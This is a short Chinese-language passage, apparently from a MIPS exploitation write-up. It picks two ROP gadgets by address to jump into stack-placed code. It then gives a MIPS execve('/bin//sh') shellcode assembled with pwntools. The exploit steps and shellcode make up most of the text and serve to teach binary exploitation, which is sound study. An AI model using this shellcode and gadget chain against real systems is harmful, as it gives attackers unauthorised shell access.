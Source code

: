 [![](assets/1705903019-cf859d7830da4809598795eb466638f8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192636-c561e358-b786-1.png)  
这里我们可以控制 fp 指向一个执行 a2 的 gadget，然后在 sp+0x68+var\_10 的位置写 gadget 即可  
这里我们找到了可以去执行 a2 的 gadget

[![](assets/1705903019-79ca75dff0c26330b6f09e70e27e57a6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120192646-cbc14a68-b786-1.png)  
所以最后就用这两个 gadget 即可  
0x0043965C | addiu $a2,$sp,0x68+var\_10 | jalr $fp  
0x0040ABB8 | move $t9,$a2 | jalr $a2  
然后我们找一段 gadget 去用既可  
直接生成的太长，从网上找了个

```bash
shellcode = '''
lui $t6,0x6e69
ori $t6,$t6,0x622f
sw $t6,28($sp)

lui $t7,0x6873
ori $t7,$t7,0x2f2f
sw $t7,32($sp)
sw $zero,36($sp) 

la $a0,28($sp)

addiu $a1,$zero,0
addiu $a2,$zero,0
addiu $v0,$zero,4011

syscall 0x40404
'''
shellcode = asm(shellcode)
```
